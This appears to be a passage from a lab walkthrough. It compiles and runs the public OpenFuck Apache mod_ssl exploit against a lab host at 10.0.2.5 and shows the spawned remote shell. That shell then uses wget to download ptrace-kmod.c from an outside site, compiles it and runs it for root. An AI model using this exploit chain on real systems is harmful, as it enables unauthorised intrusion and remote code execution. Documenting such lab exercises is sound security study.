 ```bash
of.c: In function ‘read_ssl_packet’:
of.c:534:17: warning: ‘RC4’ is deprecated: Since OpenSSL 3.0 [-Wdeprecated-declarations]
  534 |                 RC4(ssl->rc4_read_key, rec_len, buf, buf);
...
```
This time gcc only lists warnings and no errors, and if we check our directory, we can see that our binary exists `openfuck`.
## Exploitation
To figure out how to use our binary against the target, we can run it w/o any flags and see if the output gives us usage hints:
```bash
./openfuck

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./openfuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  
  Supported OffSet:
        0x00 - Caldera OpenLinux (apache-1.3.26)
        0x01 - Cobalt Sun 6.0 (apache-1.3.12)
        0x02 - Cobalt Sun 6.0 (apache-1.3.20)
...
```
We need to scroll the 'Supported Offsets' for our target:
```bash
...
	0x60 - RedHat Linux 7.0 (apache-1.3.14-2)
    0x61 - RedHat Linux 7.0-Update (apache-1.3.22-5.7.1)
```
### Execution
The command and output:
```bash
./openfuck 0x6b 10.0.2.5 -c 45
./openfuck 0x6b 10.0.2.5 -c 45                                                        
*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
...

Connection... 45 of 45
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8100
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--07:58:31--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c`
Connecting to dl.packetstormsecurity.net:443... connected!
```
